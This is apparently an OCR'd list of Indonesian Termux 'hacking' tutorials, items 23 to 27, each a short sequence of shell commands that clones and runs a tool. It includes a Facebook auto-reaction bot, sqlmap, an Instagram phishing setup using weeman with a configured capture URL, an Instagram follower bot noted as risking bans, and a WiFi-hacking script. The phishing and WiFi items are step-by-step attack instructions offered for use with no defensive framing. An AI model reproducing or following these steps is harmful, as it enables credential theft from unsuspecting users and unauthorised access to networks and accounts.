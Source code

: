23. || AUTO REACTION FACEBOOK ||

$ git clone https://github.com/tomiashari/fb-autoreaction.git
$ cd fb-autoreaction
$ python2 fb-autoreaction

24. || TOOLS SQLMAP ||

$ apt update
$ apt install python
$ apt install python2
$ apt install git
$ git clone https://github.com/sqlmapproject/sqlmap
$ cd sqlmap
$ python2 sqlmap.py

25. || TUTORIAL PHISING INSTAGRAM VIA TERMUX ||

$ pkg update
$ pkg upgrade
$ pkg install python2
$ pkg install git
$ git clone https://github.com/evait-secutiry/weeman.git
$ cd
$ ls
$ cd weeman
$ python2 weeman.py
show
set url http://dewopanel.host22.com/masuk.php
set port 8080
set action_url http://dewopanel.host22.com/masuk.php
run

26. || TUTORIAL MENAMBAH FOLLOWERS & LIKE INSTAGRAM ||

$ pkg update
$ pkg upgrade
$ pkg install python2
$ pkg install ruby
$ gem install lolcat
$ pkg install git
$ git clone https://github.com/Hanzelnutt/instabot
$ cd instabot
$ ls
$ pip2 install -r requirements.txt
$ bash instabot
NOTE : GUNAKAN DENGAN BIJAK AGAR TERHINDAR DARI BANNED !!

27. || TUTORIAL HACK WIFI KHUSUS ROOT ||

$ apt update
$ apt upgrade
$ apt install git
$ git clone https://github.com/esc0rtd3w/wifi-hacker
$ ls
$ cd wifi-hacker
$ ls
$ chmod +x wifi-hacker.sh
$ ls
$ ./wifi-hacker.sh
ketik "y" terus pilih nomer "2"
